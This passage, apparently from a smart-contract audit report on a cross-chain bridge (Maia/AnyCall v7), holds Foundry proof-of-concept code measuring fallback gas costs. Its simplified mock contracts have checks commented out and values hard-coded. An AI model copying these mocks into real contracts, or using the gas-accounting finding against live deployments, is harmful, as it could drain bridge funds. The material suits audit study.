import {DSTest} from "ds-test/test.sol";

// copied from https://github.com/transmissions11/solmate/blob/main/src/tokens/ERC20.sol
// only decimals is used
abstract contract ERC20 {
    string public name;

    string public symbol;

    uint8 public immutable decimals;
    constructor(string memory _name, string memory _symbol, uint8 _decimals) {
        name = _name;
        symbol = _symbol;
        decimals = _decimals;
    }


}

// copied from Solady 
// removed unused methods, because I couldn't submit the report with too long code
library SafeTransferLib {
    /// @dev The ETH transfer has failed.
    error ETHTransferFailed();

    /// @dev The ERC20 `transferFrom` has failed.
    error TransferFromFailed();

    /// @dev The ERC20 `transfer` has failed.
    error TransferFailed();

    /// @dev The ERC20 `approve` has failed.
    error ApproveFailed();

    /// @dev Suggested gas stipend for contract receiving ETH
    /// that disallows any storage writes.
    uint256 internal constant _GAS_STIPEND_NO_STORAGE_WRITES = 2300;

    /// @dev Suggested gas stipend for contract receiving ETH to perform a few
    /// storage reads and writes, but low enough to prevent griefing.
    /// Multiply by a small constant (e.g. 2), if needed.
    uint256 internal constant _GAS_STIPEND_NO_GRIEF = 100000;


    /// @dev Sends `amount` (in wei) ETH to `to`.
    /// Reverts upon failure.
    ///
    /// Note: This implementation does NOT protect against gas griefing.
    /// Please use `forceSafeTransferETH` for gas griefing protection.
    function safeTransferETH(address to, uint256 amount) internal {
        /// @solidity memory-safe-assembly
        assembly {
            // Transfer the ETH and check if it succeeded or not.
            if iszero(call(gas(), to, amount, 0, 0, 0, 0)) {
                // Store the function selector of `ETHTransferFailed()`.
                mstore(0x00, 0xb12d13eb)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
        }
    }

    

    function safeTransferFrom(
        address token,
        address from,
        address to,
        uint256 amount
    ) internal {
        /// @solidity memory-safe-assembly
        assembly {
            let m := mload(0x40) // Cache the free memory pointer.

            mstore(0x60, amount) // Store the `amount` argument.
            mstore(0x40, to) // Store the `to` argument.
            mstore(0x2c, shl(96, from)) // Store the `from` argument.
            // Store the function selector of `transferFrom(address,address,uint256)`.
            mstore(0x0c, 0x23b872dd000000000000000000000000)

            if iszero(
                and(
                    // The arguments of `and` are evaluated from right to left.
                    // Set success to whether the call reverted, if not we check it either
                    // returned exactly 1 (can't just be non-zero data), or had no return data.
                    or(eq(mload(0x00), 1), iszero(returndatasize())),
                    call(gas(), token, 0, 0x1c, 0x64, 0x00, 0x20)
                )
            ) {
                // Store the function selector of `TransferFromFailed()`.
                mstore(0x00, 0x7939f424)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }

            mstore(0x60, 0) // Restore the zero slot to zero.
            mstore(0x40, m) // Restore the free memory pointer.
        }
    }

  

    /// @dev Sends `amount` of ERC20 `token` from the current contract to `to`.
    /// Reverts upon failure.
    function safeTransfer(address token, address to, uint256 amount) internal {
        /// @solidity memory-safe-assembly
        assembly {
            mstore(0x14, to) // Store the `to` argument.
            mstore(0x34, amount) // Store the `amount` argument.
            // Store the function selector of `transfer(address,uint256)`.
            mstore(0x00, 0xa9059cbb000000000000000000000000)

            if iszero(
                and(
                    // The arguments of `and` are evaluated from right to left.
                    // Set success to whether the call reverted, if not we check it either
                    // returned exactly 1 (can't just be non-zero data), or had no return data.
                    or(eq(mload(0x00), 1), iszero(returndatasize())),
                    call(gas(), token, 0, 0x10, 0x44, 0x00, 0x20)
                )
            ) {
                // Store the function selector of `TransferFailed()`.
                mstore(0x00, 0x90b8ec18)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
            // Restore the part of the free memory pointer that was overwritten.
            mstore(0x34, 0)
        }
    }


}

/// copied from (https://github.com/vectorized/solady/blob/main/src/utils/SafeCastLib.sol)
library SafeCastLib {

    error Overflow();


    function toUint128(uint256 x) internal pure returns (uint128) {
        if (x >= 1 << 128) _revertOverflow();
        return uint128(x);
    }


    function toInt8(int256 x) internal pure returns (int8) {
        int8 y = int8(x);
        if (x != y) _revertOverflow();
        return y;
    }

    

    function toInt128(int256 x) internal pure returns (int128) {
        int128 y = int128(x);
        if (x != y) _revertOverflow();
        return y;
    }


    function toInt256(uint256 x) internal pure returns (int256) {
        if (x >= 1 << 255) _revertOverflow();
        return int256(x);
    }

    /*´:°•.°+.*•´.*:˚.°*.˚•´.°:°•.°•.*•´.*:˚.°*.˚•´.°:°•.°+.*•´.*:*/
    /-                    PRIVATE HELPERS                       */
    /*.•°:°.´+˚.*°.˚:*.´•*.+°.•°:´*.´•*.•°.•°:°.´:•˚°.*°.˚:*.´+°.•*/

    function _revertOverflow() private pure {
        /// @solidity memory-safe-assembly
        assembly {
            // Store the function selector of `Overflow()`.
            mstore(0x00, 0x35278d12)
            // Revert with (offset, size).
            revert(0x1c, 0x04)
        }
    }
}

interface IAnycallExecutor {
    function context()
        external
        view
        returns (address from, uint256 fromChainID, uint256 nonce);

    function execute(
        address _to,
        bytes calldata _data,
        address _from,
        uint256 _fromChainID,
        uint256 _nonce,
        uint256 _flags,
        bytes calldata _extdata
    ) external returns (bool success, bytes memory result);
}

interface IAnycallConfig {
    function calcSrcFees(
        address _app,
        uint256 _toChainID,
        uint256 _dataLength
    ) external view returns (uint256);

    function executionBudget(address _app) external view returns (uint256);

    function deposit(address _account) external payable;

    function withdraw(uint256 _amount) external;
}

interface IAnycallProxy {
    function executor() external view returns (address);

    function config() external view returns (address);

    function anyCall(
        address _to,
        bytes calldata _data,
        uint256 _toChainID,
        uint256 _flags,
        bytes calldata _extdata
    ) external payable;

    function anyCall(
        string calldata _to,
        bytes calldata _data,
        uint256 _toChainID,
        uint256 _flags,
        bytes calldata _extdata
    ) external payable;
}

contract WETH9 {
    string public name = "Wrapped Ether";
    string public symbol = "WETH";
    uint8 public decimals = 18;

    event Approval(address indexed src, address indexed guy, uint256 wad);
    event Transfer(address indexed src, address indexed dst, uint256 wad);
    event Deposit(address indexed dst, uint256 wad);
    event Withdrawal(address indexed src, uint256 wad);

    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    // function receive() external payable {
    //   deposit();
    // }

    function deposit() public payable {
        balanceOf[msg.sender] += msg.value;
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw(uint256 wad) public {
        require(balanceOf[msg.sender] >= wad);
        balanceOf[msg.sender] -= wad;
        payable(msg.sender).transfer(wad);
        emit Withdrawal(msg.sender, wad);
    }

    function totalSupply() public view returns (uint256) {
        return address(this).balance;
    }

    function approve(address guy, uint256 wad) public returns (bool) {
        allowance[msg.sender][guy] = wad;
        emit Approval(msg.sender, guy, wad);
        return true;
    }

    function transfer(address dst, uint256 wad) public returns (bool) {
        return transferFrom(msg.sender, dst, wad);
    }

    function transferFrom(
        address src,
        address dst,
        uint256 wad
    ) public returns (bool) {
        require(balanceOf[src] >= wad);

        if (src != msg.sender && allowance[src][msg.sender] != 255) {
            require(allowance[src][msg.sender] >= wad);
            allowance[src][msg.sender] -= wad;
        }

        balanceOf[src] -= wad;
        balanceOf[dst] += wad;

        emit Transfer(src, dst, wad);

        return true;
    }
}

contract AnycallExecutor {
    struct Context {
        address from;
        uint256 fromChainID;
        uint256 nonce;
    }
    // Context public override context;
    Context public context;

    constructor() {
        context.fromChainID = 1;
        context.from = address(2);
        context.nonce = 1;
    }
}

contract AnycallV7Config {
    event Deposit(address indexed account, uint256 amount);

    mapping(address => uint256) public executionBudget;

    /// @notice Deposit native currency crediting `_account` for execution costs on this chain
    /// @param _account The account to deposit and credit for
    function deposit(address _account) external payable {
        executionBudget[_account] += msg.value;
        emit Deposit(_account, msg.value);
    }
}

// IBranchPort interface
interface IPort {
    /*///////////////////////////////////////////////////////////////
                            VIEW FUNCTIONS
    //////////////////////////////////////////////////////////////*/
    /**
     * @notice Returns true if the address is a Bridge Agent.
     - @param _bridgeAgent Bridge Agent address.
     - @return bool.
     */
    function isBridgeAgent(address _bridgeAgent) external view returns (bool);

    /**
     * @notice Returns true if the address is a Strategy Token.
     - @param _token token address.
     - @return bool.
     */
    function isStrategyToken(address _token) external view returns (bool);

    /**
     * @notice Returns true if the address is a Port Strategy.
     - @param _strategy strategy address.
     - @param _token token address.
     - @return bool.
     */
    function isPortStrategy(
        address _strategy,
        address _token
    ) external view returns (bool);

    /**
     * @notice Returns true if the address is a Bridge Agent Factory.
     - @param _bridgeAgentFactory Bridge Agent Factory address.
     - @return bool.
     */
    function isBridgeAgentFactory(
        address _bridgeAgentFactory
    ) external view returns (bool);

    /*///////////////////////////////////////////////////////////////
                          PORT STRATEGY MANAGEMENT
    //////////////////////////////////////////////////////////////*/

    /**
     * @notice Allows active Port Strategy addresses to withdraw assets.
     -   @param _token token address.
     -   @param _amount amount of tokens.
     */
    function manage(address _token, uint256 _amount) external;

    /**
     * @notice allow approved address to repay borrowed reserves with reserves
     -   @param _amount uint
     -   @param _token address
     */
    function replenishReserves(
        address _strategy,
        address _token,
        uint256 _amount
    ) external;

    /*///////////////////////////////////////////////////////////////
                          hTOKEN MANAGEMENT
    //////////////////////////////////////////////////////////////*/

    /**
     * @notice Function to withdraw underlying / native token amount into Port in exchange for Local hToken.
     - @param _recipient hToken receiver.
     - @param _underlyingAddress underlying / native token address.
     - @param _amount amount of tokens.
     *
     */
    function withdraw(
        address _recipient,
        address _underlyingAddress,
        uint256 _amount
    ) external;

    /**
     * @notice Setter function to increase local hToken supply.
     - @param _recipient hToken receiver.
     - @param _localAddress token address.
     - @param _amount amount of tokens.
     *
     */
    function bridgeIn(
        address _recipient,
        address _localAddress,
        uint256 _amount
    ) external;

    /**
     * @notice Setter function to increase local hToken supply.
     - @param _recipient hToken receiver.
     - @param _localAddresses token addresses.
     - @param _amounts amount of tokens.
     *
     */
    function bridgeInMultiple(
        address _recipient,
        address[] memory _localAddresses,
        uint256[] memory _amounts
    ) external;

    /**
     * @notice Setter function to decrease local hToken supply.
     - @param _localAddress token address.
     - @param _amount amount of tokens.
     *
     */
    function bridgeOut(
        address _depositor,
        address _localAddress,
        address _underlyingAddress,
        uint256 _amount,
        uint256 _deposit
    ) external;

    /**
     * @notice Setter function to decrease local hToken supply.
     - @param _depositor user to deduct balance from.
     - @param _localAddresses local token addresses.
     - @param _underlyingAddresses local token address.
     - @param _amounts amount of local tokens.
     - @param _deposits amount of underlying tokens.
     *
     */
    function bridgeOutMultiple(
        address _depositor,
        address[] memory _localAddresses,
        address[] memory _underlyingAddresses,
        uint256[] memory _amounts,
        uint256[] memory _deposits
    ) external;

    /*///////////////////////////////////////////////////////////////
                        ADMIN FUNCTIONS
    //////////////////////////////////////////////////////////////*/

    /**
     * @notice Adds a new bridge agent address to the branch port.
     - @param _bridgeAgent address of the bridge agent to add to the Port
     */
    function addBridgeAgent(address _bridgeAgent) external;

    /**
     * @notice Sets the core router address for the branch port.
     - @param _newCoreRouter address of the new core router
     */
    function setCoreRouter(address _newCoreRouter) external;

    /**
     * @notice Adds a new bridge agent factory address to the branch port.
     - @param _bridgeAgentFactory address of the bridge agent factory to add to the Port
     */
    function addBridgeAgentFactory(address _bridgeAgentFactory) external;

    /**
     * @notice Reverts the toggle on the given bridge agent factory. If it's active, it will de-activate it and vice-versa.
     - @param _newBridgeAgentFactory address of the bridge agent factory to add to the Port
     */
    function toggleBridgeAgentFactory(address _newBridgeAgentFactory) external;

    /**
     * @notice Reverts thfe toggle on the given bridge agent  If it's active, it will de-activate it and vice-versa.
     - @param _bridgeAgent address of the bridge agent to add to the Port
     */
    function toggleBridgeAgent(address _bridgeAgent) external;

    /**
     * @notice Adds a new strategy token.
     * @param _token address of the token to add to the Strategy Tokens
     */
    function addStrategyToken(
        address _token,
        uint256 _minimumReservesRatio
    ) external;

    /**
     * @notice Reverts the toggle on the given strategy token. If it's active, it will de-activate it and vice-versa.
     * @param _token address of the token to add to the Strategy Tokens
     */
    function toggleStrategyToken(address _token) external;

    /**
     * @notice Adds a new Port strategy to the given port
     * @param _portStrategy address of the bridge agent factory to add to the Port
     */
    function addPortStrategy(
        address _portStrategy,
        address _token,
        uint256 _dailyManagementLimit
    ) external;

    /**
     * @notice Reverts the toggle on the given port strategy. If it's active, it will de-activate it and vice-versa.
     * @param _portStrategy address of the bridge agent factory to add to the Port
     */
    function togglePortStrategy(address _portStrategy, address _token) external;

    /**
     * @notice Updates the daily management limit for the given port strategy.
     * @param _portStrategy address of the bridge agent factory to add to the Port
     * @param _token address of the token to update the limit for
     * @param _dailyManagementLimit new daily management limit
     */
    function updatePortStrategy(
        address _portStrategy,
        address _token,
        uint256 _dailyManagementLimit
    ) external;

    /*///////////////////////////////////////////////////////////////
                            EVENTS
    //////////////////////////////////////////////////////////////*/

    event DebtCreated(
        address indexed _strategy,
        address indexed _token,
        uint256 _amount
    );
    event DebtRepaid(
        address indexed _strategy,
        address indexed _token,
        uint256 _amount
    );

    event StrategyTokenAdded(
        address indexed _token,
        uint256 _minimumReservesRatio
    );
    event StrategyTokenToggled(address indexed _token);

    event PortStrategyAdded(
        address indexed _portStrategy,
        address indexed _token,
        uint256 _dailyManagementLimit
    );
    event PortStrategyToggled(
        address indexed _portStrategy,
        address indexed _token
    );
    event PortStrategyUpdated(
        address indexed _portStrategy,
        address indexed _token,
        uint256 _dailyManagementLimit
    );

    event BridgeAgentFactoryAdded(address indexed _bridgeAgentFactory);
    event BridgeAgentFactoryToggled(address indexed _bridgeAgentFactory);

    event BridgeAgentToggled(address indexed _bridgeAgent);

    /*///////////////////////////////////////////////////////////////
                            ERRORS
    //////////////////////////////////////////////////////////////*/

    error InvalidMinimumReservesRatio();
    error InsufficientReserves();
    error UnrecognizedCore();
    error UnrecognizedBridgeAgent();
    error UnrecognizedBridgeAgentFactory();
    error UnrecognizedPortStrategy();
    error UnrecognizedStrategyToken();
}

contract BranchPort {
    using SafeTransferLib for address;

    error UnrecognizedBridgeAgent();

    /// @notice Mapping from Underlying Address to isUnderlying (bool).
    mapping(address => bool) public isBridgeAgent;

    constructor(address bridgeAgent) {
        isBridgeAgent[bridgeAgent] = true;
    }

    /// @notice Modifier that verifies msg sender is an active Bridge Agent.
    modifier requiresBridgeAgent() {
        if (!isBridgeAgent[msg.sender]) revert UnrecognizedBridgeAgent();
        _;
    }

    function withdraw(
        address _recipient,
        address _underlyingAddress,
        uint256 _deposit
    ) external virtual requiresBridgeAgent {
        _underlyingAddress.safeTransfer(
            _recipient,
            _denormalizeDecimals(_deposit, ERC20(_underlyingAddress).decimals())
        );
    }

    function _denormalizeDecimals(
        uint256 _amount,
        uint8 _decimals
    ) internal pure returns (uint256) {
        return
            _decimals == 18 ? _amount : (_amount * 1 ether) / (10 ** _decimals);
    }
}

contract BranchBridgeAgent {
    using SafeCastLib for uint256;

    enum DepositStatus {
        Success,
        Failed
    }

    struct Deposit {
        uint128 depositedGas;
        address owner;
        DepositStatus status;
        address[] hTokens;
        address[] tokens;
        uint256[] amounts;
        uint256[] deposits;
    }

    error AnycallUnauthorizedCaller();
    error GasErrorOrRepeatedTx();

    uint256 public remoteCallDepositedGas;

    uint256 internal constant MIN_FALLBACK_RESERVE = 185_000; // 100_000 for anycall + 85_000 fallback execution overhead
    // uint256 internal constant MIN_EXECUTION_OVERHEAD = 160_000; // 100_000 for anycall + 35_000 Pre 1st Gas Checkpoint Execution + 25_000 Post last Gas Checkpoint Executions
    uint256 internal constant TRANSFER_OVERHEAD = 24_000;

    WETH9 public immutable wrappedNativeToken;

    AnycallV7Config public anycallV7Config;

    uint256 public accumulatedFees;

    /// @notice Local Chain Id
    uint24 public immutable localChainId;

    /// @notice Address for Bridge Agent who processes requests submitted for the Root Router Address where cross-chain requests are executed in the Root Chain.
    address public immutable rootBridgeAgentAddress;
    /// @notice Local Anyexec Address
    address public immutable local`AnyCall`ExecutorAddress;

    /// @notice Address for Local AnycallV7 Proxy Address where cross-chain requests are sent to the Root Chain Router.
    address public immutable local`AnyCall`Address;

    /// @notice Address for Local Port Address where funds deposited from this chain are kept, managed and supplied to different Port Strategies.
    address public immutable localPortAddress;

    /// @notice Deposit nonce used for identifying transaction.
    uint32 public depositNonce;

    /// @notice Mapping from Pending deposits hash to Deposit Struct.
    mapping(uint32 => Deposit) public getDeposit;

    constructor() {
        AnycallExecutor anycallExecutor = new AnycallExecutor();
        local`AnyCall`ExecutorAddress = address(anycallExecutor);

        localChainId = 1;

        wrappedNativeToken = new WETH9();

        local`AnyCall`Address = address(3);

        rootBridgeAgentAddress = address(2);

        anycallV7Config = new AnycallV7Config();

        localPortAddress = address(new BranchPort(address(this)));

        getDeposit[1].depositedGas = 1 ether; // just for testing below
    }

    modifier requiresExecutor() {
        _requiresExecutor();
        _;
    }

    function _requiresExecutor() internal view {
        if (msg.sender != local`AnyCall`ExecutorAddress)
            revert AnycallUnauthorizedCaller();
        (address from, , ) = IAnycallExecutor(local`AnyCall`ExecutorAddress)
            .context();
        if (from != rootBridgeAgentAddress) revert AnycallUnauthorizedCaller();
    }

    function _replenishGas(uint256 _executionGasSpent) internal virtual {
        //Deposit Gas
        anycallV7Config.deposit{value: _executionGasSpent}(address(this));
        // IAnycallConfig(IAnycallProxy(local`AnyCall`Address).config()).deposit{value: _executionGasSpent}(address(this));
    }

    function _forceRevert() internal virtual {
        IAnycallConfig anycallConfig = IAnycallConfig(
            IAnycallProxy(local`AnyCall`Address).config()
        );
        uint256 executionBudget = anycallConfig.executionBudget(address(this));

        // Withdraw all execution gas budget from anycall for tx to revert with "no enough budget"
        if (executionBudget > 0)
            try anycallConfig.withdraw(executionBudget) {} catch {}
    }

    /**
     * @notice Internal function repays gas used by Branch Bridge Agent to fulfill remote initiated interaction.
     - @param _depositNonce Identifier for user deposit attatched to interaction being fallback.
     - @param _initialGas gas used by Branch Bridge Agent.
     */
    function _payFallbackGas(
        uint32 _depositNonce,
        uint256 _initialGas
    ) internal virtual {
        //Save gas
        uint256 gasLeft = gasleft();

        //Get Branch Environment Execution Cost
        // 1e9 for tx.gasPrice since it is zero in Foundry
        uint256 minExecCost = 1e9 *
            (MIN_FALLBACK_RESERVE + _initialGas - gasLeft);

        //Check if sufficient balance
        if (minExecCost > getDeposit[_depositNonce].depositedGas) {
            // getDeposit[1].depositedGas => 1 ether . set in the constructer above
            _forceRevert();
            return;
        }

        //Update user deposit reverts if not enough gas => user must boost deposit with gas
        getDeposit[_depositNonce].depositedGas -= minExecCost.toUint128();

        //Withdraw Gas
        IPort(localPortAddress).withdraw(
            address(this),
            address(wrappedNativeToken),
            minExecCost
        );

        //Unwrap Gas
        wrappedNativeToken.withdraw(minExecCost);

        //Replenish Gas
        _replenishGas(minExecCost);
    }

    function anyFallback(
        bytes calldata data
    )
        external
        virtual
        requiresExecutor
        returns (bool success, bytes memory result)
    {
        //Get Initial Gas Checkpoint
        uint256 initialGas = gasleft();

        /*
         *
         * Other code here
         *
         */

        // we assume that the flag was 0x01 for simplicity and since it is also irrelevant anyway
        // passing deposit nonce as 1 since it is also irrelevant
        //Deduct gas costs from deposit and replenish this bridge agent's execution budget.
        _payFallbackGas(1, initialGas);

        return (true, "");
    }

    function depositIntoWeth(uint256 amt) external {
        wrappedNativeToken.deposit{value: amt * 2}();
        // transfer half to the port
        wrappedNativeToken.transfer(localPortAddress, amt);
    }

    fallback() external payable {}
}

contract BranchBridgeAgentEmpty {
    using SafeCastLib for uint256;

    enum DepositStatus {
        Success,
        Failed
    }

    struct Deposit {
        uint128 depositedGas;
        address owner;
        DepositStatus status;
        address[] hTokens;
        address[] tokens;
        uint256[] amounts;
        uint256[] deposits;
    }

    error AnycallUnauthorizedCaller();
    error GasErrorOrRepeatedTx();

    uint256 public remoteCallDepositedGas;

    uint256 internal constant MIN_FALLBACK_RESERVE = 185_000; // 100_000 for anycall + 85_000 fallback execution overhead

    WETH9 public immutable wrappedNativeToken;

    AnycallV7Config public anycallV7Config;

    uint256 public accumulatedFees;

    /// @notice Local Chain Id
    uint24 public immutable localChainId;

    /// @notice Address for Bridge Agent who processes requests submitted for the Root Router Address where cross-chain requests are executed in the Root Chain.
    address public immutable rootBridgeAgentAddress;
    /// @notice Local Anyexec Address
    address public immutable local`AnyCall`ExecutorAddress;

    /// @notice Address for Local AnycallV7 Proxy Address where cross-chain requests are sent to the Root Chain Router.
    address public immutable local`AnyCall`Address;

    /// @notice Address for Local Port Address where funds deposited from this chain are kept, managed and supplied to different Port Strategies.
    address public immutable localPortAddress;

    /// @notice Deposit nonce used for identifying transaction.
    uint32 public depositNonce;

    /// @notice Mapping from Pending deposits hash to Deposit Struct.
    mapping(uint32 => Deposit) public getDeposit;

    constructor() {
        AnycallExecutor anycallExecutor = new AnycallExecutor();
        local`AnyCall`ExecutorAddress = address(anycallExecutor);

        localChainId = 1;

        wrappedNativeToken = new WETH9();

        local`AnyCall`Address = address(3);

        rootBridgeAgentAddress = address(2);

        anycallV7Config = new AnycallV7Config();

        localPortAddress = address(new BranchPort(address(this)));

        getDeposit[1].depositedGas = 1 ether; // just for testing below
    }

    modifier requiresExecutor() {
        _requiresExecutor();
        _;
    }

    function _requiresExecutor() internal view {
        if (msg.sender != local`AnyCall`ExecutorAddress)
            revert AnycallUnauthorizedCaller();
        (address from, , ) = IAnycallExecutor(local`AnyCall`ExecutorAddress)
            .context();
        if (from != rootBridgeAgentAddress) revert AnycallUnauthorizedCaller();
    }

    function _replenishGas(uint256 _executionGasSpent) internal virtual {
        //Deposit Gas
        anycallV7Config.deposit{value: _executionGasSpent}(address(this));
        // IAnycallConfig(IAnycallProxy(local`AnyCall`Address).config()).deposit{value: _executionGasSpent}(address(this));
    }

    function _forceRevert() internal virtual {
        IAnycallConfig anycallConfig = IAnycallConfig(
            IAnycallProxy(local`AnyCall`Address).config()
        );
        uint256 executionBudget = anycallConfig.executionBudget(address(this));

        // Withdraw all execution gas budget from anycall for tx to revert with "no enough budget"
        if (executionBudget > 0)
            try anycallConfig.withdraw(executionBudget) {} catch {}
    }

    /**
     * @notice Internal function repays gas used by Branch Bridge Agent to fulfill remote initiated interaction.
     - @param _depositNonce Identifier for user deposit attatched to interaction being fallback.
     - @param _initialGas gas used by Branch Bridge Agent.
     */
    function _payFallbackGas(
        uint32 _depositNonce,
        uint256 _initialGas
    ) internal virtual {
        //Save gas
        uint256 gasLeft = gasleft();

        // comment out all the lines after end gas checkpoint for gas calc purpose

        // //Get Branch Environment Execution Cost
        // // 1e9 for tx.gasPrice since it is zero in Foundry
        // uint256 minExecCost = 1e9 * (MIN_FALLBACK_RESERVE + _initialGas - gasLeft);

        // //Check if sufficient balance
        // if (minExecCost > getDeposit[_depositNonce].depositedGas) { // getDeposit[1].depositedGas => 1 ether . set in the constructer above
        //     _forceRevert();
        //     return;
        // }

        // //Update user deposit reverts if not enough gas => user must boost deposit with gas
        // getDeposit[_depositNonce].depositedGas -= minExecCost.toUint128();

        // //Withdraw Gas
        // IPort(localPortAddress).withdraw(address(this), address(wrappedNativeToken), minExecCost);

        // //Unwrap Gas
        // wrappedNativeToken.withdraw(minExecCost);

        // //Replenish Gas
        // _replenishGas(minExecCost);
    }

    function anyFallback(
        bytes calldata data
    )
        external
        virtual
        returns (
            // requiresExecutor comment out this for gas calc purpose
            bool success,
            bytes memory result
        )
    {
        //Get Initial Gas Checkpoint
        uint256 initialGas = gasleft();

        /*
         *
         * Other code here
         *
         */

        // we assume that the flag was 0x01 for simplicity and since it is also irrelevant anyway
        // passing deposit nonce as 1 since it is also irrelevant
        //Deduct gas costs from deposit and replenish this bridge agent's execution budget.
        _payFallbackGas(1, initialGas);

        // return (true, ""); // comment out this also for gas calc purpose
    }

    function depositIntoWeth(uint256 amt) external {
        wrappedNativeToken.deposit{value: amt * 2}();
        // transfer half to the port
        wrappedNativeToken.transfer(localPortAddress, amt);
    }

    fallback() external payable {}
}

contract GasCalc is DSTest, Test {
    BranchBridgeAgent branchBridgeAgent;
    BranchBridgeAgentEmpty branchBridgeAgentEmpty;

    function setUp() public {
        branchBridgeAgentEmpty = new BranchBridgeAgentEmpty();
        vm.deal(
            address(branchBridgeAgentEmpty.local`AnyCall`ExecutorAddress()),
            100 ether
        ); // executer pays gas
        vm.deal(address(branchBridgeAgentEmpty), 200 ether);

        branchBridgeAgent = new BranchBridgeAgent();
        vm.deal(
            address(branchBridgeAgent.local`AnyCall`ExecutorAddress()),
            100 ether
        ); // executer pays gas
        vm.deal(address(branchBridgeAgent), 200 ether);
    }

    // code after end checkpoint gasLeft not included
    function test_calcgasEmpty() public {
        // add weth balance to the agent and the port // 100 WETH for each
        branchBridgeAgentEmpty.depositIntoWeth(100 ether);

        vm.prank(address(branchBridgeAgentEmpty.local`AnyCall`ExecutorAddress()));
        uint256 gasStart = gasleft();
        branchBridgeAgentEmpty.anyFallback(bytes(""));
        uint256 gasEnd = gasleft();
        vm.stopPrank();
        uint256 gasSpent = gasStart - gasEnd;
        console.log(
            "branchBridgeAgentEmpty.anyFallback Gas Spent => %d",
            gasSpent
        );
    }

    // code after end checkpoint gasLeft included
    function test_calcgas() public {
        // add weth balance to the agent and the port // 100 WETH for each
        branchBridgeAgent.depositIntoWeth(100 ether);

        vm.prank(address(branchBridgeAgent.local`AnyCall`ExecutorAddress()));
        uint256 gasStart = gasleft();
        branchBridgeAgent.anyFallback(bytes(""));
        uint256 gasEnd = gasleft();
        vm.stopPrank();
        uint256 gasSpent = gasStart - gasEnd;
        console.log("branchBridgeAgent.anyFallback Gas Spent => %d", gasSpent);
    }
}

```
</details>

### Proof of Concept #2 (The gas consumed by `anyExec` method in ``AnyCall``)

### Overview

We have contracts that simulate the `Anycall` contracts:

1. `AnycallV7Config`
2. `AnycallExecutor`
3. `AnycallV7`

The flow looks like this:
MPC `=>` `AnycallV7` `=>` `AnycallExecutor` `=>` IApp

In the code, `IApp(_to).anyFallback` is commented out because we don't want to calculate its gas, since it is done in PoC #1. We also set `isFallback` to true, but the increased gas for this is negligible anyway.

Here is the output of the test:

```sh
[PASS] test_gasInanycallv7() (gas: 102640)
Logs:
  anycallV7.anyExec Gas Spent => 110920

Test result: ok. 1 passed; 0 failed; finished in 1.58ms
```

### Coded PoC

<details>

```solidity
// PoC => Maia OmniChain: gasCalculation for anyFallback in `AnyCall` v7  contracts
pragma solidity >=0.8.4 <0.9.0;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";

import {DSTest} from "ds-test/test.sol";

/// IAnycallConfig interface of the anycall config
interface IAnycallConfig {
    function checkCall(
        address _sender,
        bytes calldata _data,
        uint256 _toChainID,
        uint256 _flags
    ) external view returns (string memory _appID, uint256 _srcFees);

    function checkExec(
        string calldata _appID,
        address _from,
        address _to
    ) external view;

    function chargeFeeOnDestChain(address _from, uint256 _prevGasLeft) external;
}

/// IAnycallExecutor interface of the anycall executor
interface IAnycallExecutor {
    function context()
        external
        view
        returns (address from, uint256 fromChainID, uint256 nonce);

    function execute(
        address _to,
        bytes calldata _data,
        address _from,
        uint256 _fromChainID,
        uint256 _nonce,
        uint256 _flags,
        bytes calldata _extdata
    ) external returns (bool success, bytes memory result);
}

/// IApp interface of the application
interface IApp {
    /// (required) call on the destination chain to exec the interaction
    function anyExecute(bytes calldata _data)
        external
        returns (bool success, bytes memory result);

    /// (optional,advised) call back on the originating chain if the cross chain interaction fails
    /// `_data` is the orignal interaction arguments exec on the destination chain
    function anyFallback(bytes calldata _data)
        external
        returns (bool success, bytes memory result);
}

library AnycallFlags {
    // call flags which can be specified by user
    uint256 public constant FLAG_NONE = 0x0;
    uint256 public constant FLAG_MERGE_CONFIG_FLAGS = 0x1;
    uint256 public constant FLAG_PAY_FEE_ON_DEST = 0x1 << 1;
    uint256 public constant FLAG_ALLOW_FALLBACK = 0x1 << 2;

    // exec flags used internally
    uint256 public constant FLAG_EXEC_START_VALUE = 0x1 << 16;
    uint256 public constant FLAG_EXEC_FALLBACK = 0x1 << 16;
}

contract AnycallV7Config {
    uint256 public constant PERMISSIONLESS_MODE = 0x1;
    uint256 public constant FREE_MODE = 0x1 << 1;

    mapping(string => mapping(address => bool)) public appExecWhitelist;
    mapping(string => bool) public appBlacklist;

    uint256 public mode;

    uint256 public minReserveBudget;

    mapping(address => uint256) public executionBudget;

    constructor() {
         mode = PERMISSIONLESS_MODE;
    }

    function checkExec(
        string calldata _appID,
        address _from,
        address _to
    ) external view {
        require(!appBlacklist[_appID], "blacklist");

        if (!_isSet(mode, PERMISSIONLESS_MODE)) {
            require(appExecWhitelist[_appID][_to], "no permission");
        }

        if (!_isSet(mode, FREE_MODE)) {
            require(
                executionBudget[_from] >= minReserveBudget,
                "less than min budget"
            );
        }
    }

    function _isSet(
        uint256 _value,
        uint256 _testBits
    ) internal pure returns (bool) {
        return (_value & _testBits) == _testBits;
    }
}

contract AnycallExecutor {
    bytes32 public constant PAUSE_ALL_ROLE = 0x00;

    event Paused(bytes32 role);
    event Unpaused(bytes32 role);

    modifier whenNotPaused(bytes32 role) {
        require(
            !paused(role) && !paused(PAUSE_ALL_ROLE),
            "PausableControl: paused"
        );
        _;
    }
    mapping(bytes32 => bool) private _pausedRoles;
    mapping(address => bool) public isSupportedCaller;


    struct Context {
        address from;
        uint256 fromChainID;
        uint256 nonce;
    }
    // Context public override context;
    Context public context;

    function paused(bytes32 role) public view virtual returns (bool) {
        return _pausedRoles[role];
    }

    modifier onlyAuth() {
        require(isSupportedCaller[msg.sender], "not supported caller");
        _;
    }

    constructor(address anycall) {
        context.fromChainID = 1;
        context.from = address(2);
        context.nonce = 1;

        isSupportedCaller[anycall] = true;
    }

function _isSet(uint256 _value, uint256 _testBits)
        internal
        pure
        returns (bool)
    {
        return (_value & _testBits) == _testBits;
    }

    // @dev `_extdata` content is implementation based in each version
    function execute(
        address _to,
        bytes calldata _data,
        address _from,
        uint256 _fromChainID,
        uint256 _nonce,
        uint256 _flags,
        bytes calldata /*_extdata*/
    )
        external
        virtual
        onlyAuth
        whenNotPaused(PAUSE_ALL_ROLE)
        returns (bool success, bytes memory result)
    {
